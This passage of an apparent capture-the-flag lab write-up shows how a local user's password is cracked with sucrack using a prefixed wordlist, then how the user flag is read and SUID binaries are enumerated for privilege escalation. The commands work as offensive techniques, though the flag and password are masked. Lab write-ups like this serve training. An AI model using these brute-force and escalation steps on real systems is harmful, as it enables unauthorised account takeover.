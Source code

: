 #### Creating custom wordlist

On your host machine modify the old wordlist by adding the prefix 123adana to all the words.

```
sed 's/^/123adana/' /var/www/html/announcements/wordlist.txt > newlist.txt
```

Send this newlist to the target machine using a python http server.

#### Run sucrack

```
./sucrack -u hakanbey -w 100 newlist.txt.1
```
#### Result

```
password is: **************
```
#### Switch user

```
su hakanbey
```

#### Retrieve flag

```
cd /home/hakanbey
cat user.txt
```
## Task 2b

```
THM{********************************}
```

#### Scanning for suid

```
find / -perm -4000 -type f 2>/dev/null
```

#### Results

```
/bin/fusermount
/bin/su
/bin/umount
/bin/mount
/bin/ping
/usr/local/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/arping
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/binary
/usr/bin/at
/usr/bin/newgrp
/usr/sbin/pppd
```